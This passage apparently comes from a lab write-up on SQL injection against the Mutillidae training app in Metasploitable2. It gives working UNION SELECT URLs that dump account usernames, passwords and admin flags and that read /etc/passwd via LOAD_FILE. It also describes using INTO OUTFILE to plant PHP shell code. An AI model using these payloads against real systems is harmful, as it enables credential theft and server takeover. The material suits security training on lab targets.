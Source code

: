 http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Saranyaaav/sqlinjection/assets/144870813/605eaaf0-4538-481e-9d30-a10f2a1ab211)



### Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Saranyaaav/sqlinjection/assets/144870813/256ec804-9307-4591-8952-ab9650d5ac05)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).



## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

